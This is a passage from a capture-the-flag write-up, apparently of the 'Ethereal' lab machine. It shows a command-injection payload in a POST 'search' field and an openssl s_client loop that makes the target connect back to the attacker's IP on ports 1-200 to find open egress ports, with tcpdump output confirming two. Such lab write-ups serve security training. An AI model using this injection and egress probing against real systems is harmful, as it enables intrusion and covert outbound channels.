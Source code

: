     

I will use `dir /x` to get the Windiws [8.3
names](https://en.wikipedia.org/wiki/8.3_filename) because they are much
easier to deal with without spaces.

`OpenSSL` is interesting to me. That’s something I can use to communicate out.
Digging deeper, I’ll find the full path to the binary to be:
`\progra~2\openss~1.0\bin\openssl.exe`.

I can get the version, so I know I can run it:

    
    
    ethereal> \progra~2\openss~1.0\bin\openssl.exe version
    OpenSSL 1.1.0h 27 Mar 2018
    

### Enumeration - Firewall

`openssl` only helps me if I can find a way to communicate home. Everything
I’ve tried thus far except DNS has been blocked. I’ll show three ways to find
two open TCP ports.

#### For Loop On Ethereal

I added a `quite` command to the shell so I could do commands that don’t
require output over dns. Running a FOR loop inside the FOR loop used by the
DNS was messing something up. Now I can do this:

    
    
    ethereal> quiet FOR /L %G IN (1,1,200) DO (c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:%G)
    

That will try to connect to me on all the ports 1-200, by sending a POST that
has a search field that looks like `search=& ( FOR /L %G IN (1,1,200) DO
(c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect
10.10.14.14:%G) )`.

I’ll watch for tcp syn packets from 10.10.10.106 in `tcpdump`:

    
    
    root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    17:56:07.919571 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    17:56:08.528789 IP 10.10.10.106.49754 > 10.10.14.14.73: Flags [S], seq 793376072, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    17:56:53.276709 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
    17:56:54.275185 IP 10.10.10.106.49817 > 10.10.14.14.136: Flags [S], seq 2392131827, win 8192, options [mss 1357,nop,nop,sackOK], length 0
    

I get connections back on two ports, 73 and 136.

#### Firewall
